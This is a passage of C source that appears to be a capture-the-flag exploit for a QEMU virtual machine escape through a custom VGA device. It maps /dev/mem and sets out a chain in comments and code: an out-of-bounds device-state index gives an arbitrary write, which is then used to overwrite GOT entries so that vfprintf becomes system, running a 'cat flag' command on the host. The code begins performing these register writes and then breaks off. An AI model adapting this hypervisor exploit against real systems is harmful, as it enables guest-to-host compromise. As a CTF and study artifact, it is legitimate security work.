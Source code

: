 }

void vga_mem_write( unsigned int addr, unsigned char val )
{
    vga_ptr[addr] = val;
}

void SR( unsigned char index, unsigned char val )
{
    mmio_ptr[4] = index;
    mmio_ptr[5] = val;
}

int main( void )
{
    // /dev/mem is not mapped on the system
    // we need to do that (man mem)
    system( "mknod -m 660 /dev/mem c 1 1" );

    mmio_ptr = mapmem( "/dev/mem", mmio_addr, mmio_size );
    if ( !mmio_ptr ) {
        return 1;
    }

    vga_ptr = mapmem( "/dev/mem", vga_addr, vga_size );
    if ( !vga_ptr ) {
        return 2;
    }

    unsigned char payload[64] = { 0 };
    strcpy( payload, "cat flag" );

    /*
        BUG out of bound VulnState index in cydf_vga_mem_write
        vulncnt <= 16

        - Vuln commands:
            0. malloc
            1. write with limit of max_size
            2. print content of vs[index].buf
            3. set new max_size for vs
            4. write past the max_size limit, bof
        
        vs[16] as its out of bounds overlaps with VGACommonState.latch
        - use vga_mem_read to write over the latch thus creating a pointer for vs[16]
        - use vs command 1 to write over the vs[16].buf that we placed there
        - with the above mechanism we have arbitrary write use it to:
            - write string "cat flag" in the qemu's bss
            - write the pointer to our string in global "qemu_logfile"
            - overwrite the vfprintf@GOT with system@PLT
            - overwrite the __printf_chk@GOT with address of "qemu_log" function


    */

    // Set the latch[0] to 0xf6a3c0
    // this is just a random .bss address
    // that we are going to use as tmp buffer
    vga_mem_read( 1 );
    vga_mem_read( ( 0xf6a3c0 >> 16 ) );
    vga_mem_read( 0xf6a3c0 & 0xffff );

    // Set the first bit of sr[7] so we can reach the vuln
    SR( 7, 1 );
    // set cmd to write with no limit
    SR( 0xcc, 4 );
    // set the VulnState index to 16
    // this will ensure that latch[0] is now the buffer in use
    SR( 0xcd, 16 );

